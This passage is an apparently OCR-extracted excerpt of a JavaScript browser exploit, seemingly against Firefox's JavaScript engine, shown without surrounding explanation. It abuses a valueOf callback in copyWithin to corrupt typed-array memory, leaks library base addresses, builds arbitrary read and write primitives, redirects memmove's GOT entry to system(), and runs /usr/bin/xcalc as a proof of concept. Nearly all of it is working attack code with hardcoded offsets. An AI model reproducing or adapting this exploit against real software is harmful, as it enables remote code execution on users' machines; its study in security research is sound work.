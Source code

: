 ```
    a1_32[1]=0x61626364;

    a2_32[0]=0x31323334;
    a2_32[1]=0x31323334;

    hax = `{` valueOf: function() `{` a1_8.offset = 0x58 ; return 0x0; `}` `}`;
    a1_8.copyWithin(hax,0x20,0x28);

    xul_base = f2i(a1_64[11]) -0x39b4bf0;
    memmove_got = xul_base + 0x000004b1f160
    print("xul_base "+hex(xul_base));
    // 0x7fffecae9160
    print("memmove_got "+hex(memmove_got));

    a1_8.offset = 0;
    a1_8.copyWithin(hax,0x28,0x30);
    buffer1_base = f2i(a1_64[11])*2 - 0xe0;
    print("buffer1_base "+hex(buffer1_base));

    a1_8.offset = 0;
    hax = `{` valueOf: function() `{` a1_8.offset = 0x58 ; return 0x28; `}` `}`;
    a2_64[0]=i2f(buffer1_base/2);
    a1_8.copyWithin(hax,0x48,0x50);
    print(hex(f2i(a2_64[0])));



    // leak libc addr
    function read64(addr)`{`
        a2_32 = new Uint32Array(buffer2);
        a2_64 = new Float64Array(buffer2);
        a2_32[10]=0x1000;
        a2_64[4]=i2f(addr/2);
        leak = new Float64Array(buffer1);
        return f2i(leak[0]);
    `}`
    function write64(addr,data)`{`
        a2_32 = new Uint32Array(buffer2);
        a2_64 = new Float64Array(buffer2);
        a2_32[10]=0x1000;
        a2_64[4]=i2f(addr/2);
        towrite = new Float64Array(buffer1);
        towrite[0] = i2f(data);
    `}`
    memmove_addr =  read64(memmove_got) ;
    libc_base =  memmove_addr -  0x14d9b0;
    system_addr = libc_base + 0x0000000000045390;
    print("libc_base "+hex(libc_base));
    print("system_addr "+hex(system_addr));

    var target = new Uint8Array(100);
    var cmd = "/usr/bin/xcalc";
    for (var i = 0; i &lt; cmd.length; i++) `{`
            target[i] = cmd.charCodeAt(i);
        `}`
    target[cmd.length]=0;
    write64(memmove_got,system_addr);
    target.copyWithin(0, 1);
    write64(memmove_got,memmove_addr);

`}`
```
